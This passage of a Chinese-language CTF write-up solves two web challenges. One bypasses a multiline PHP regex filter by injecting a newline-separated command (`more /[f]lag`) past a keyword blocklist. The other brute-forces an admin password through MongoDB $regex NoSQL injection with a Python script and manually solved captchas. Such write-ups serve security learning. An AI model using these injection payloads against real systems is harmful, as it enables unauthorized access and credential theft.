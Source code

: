 这里需要按题目意思生成24为优惠码，将生成的优惠码填入，发起请求，提示购买成功，进入第二个页面，需要绕过一个正则：

```php
if (preg_match("/^\d+\.\d+\.\d+\.\d+$/im",$ip)){
    if (!preg_match("/\?|flag|}|cat|echo|\*/i",$ip)){
        //执行命令
    }else {
        //flag字段和某些字符被过滤!
    }
}else{
    // 你的输入不正确!
}
```

开始我以为是正则回溯绕过，之后才发现这里是`if (true)`进入分支。这里由于正则标志位m的存在，不同行间有一个匹配上就成功，所以`%0a`截断后传入`more /[f]lag`即可

***

### Injection?

先看到hint，说不是`sql注入`......难道nosql（not only sql）不算sql吗。我直接钻进死路想着是不是跟`PHP Session`注入啥的有关系，然后就在PHPinfo页面找session想关

`MongoDB`我原来开发用它做过后端数据库，也学习过它的注入，可见原来的[博文](http://iv4n.xyz/mongo/)

这个题`passwd[$regex]=^xxx`，和SQL一样的正则注入即可，但是它有验证码，我一直以来对待验证码都是半自动手工识别（原来写爬虫被`tesseract`的端到端识别率伤害过...），用`opencv`库的`waitKey`函数来连续打码，脚本如下（没有写验证码错误的处理逻辑）：

```python
import requests
import cv2

url = "http://123.206.213.66:45678/index.php"
c_url = "http://123.206.213.66:45678/vertify.php"
l_url = "http://123.206.213.66:45678/check.php?username=admin&password[$regex]=^{0}&vertify={1}"

s = requests.Session()
s.get(url)
flag = ""

for i in range(10):
    for j in "abcd....xyz":
        with open("captcha.png", "wb") as fp:
            r = s.get(c_url)
            fp.write(r.content)
        img = cv2.imread("captcha.png")
        cv2.imshow("a", img)
        captcha = ""
        if cv2.waitKey(0) == 32:
            cv2.destroyAllWindows()
            captcha = input("captcha: ")
        r = s.get(l_url.format(flag+j, captcha))
        print(r.text)
        if "incorrect" not in r.text:
            flag += j
            break
    print(flag)


```
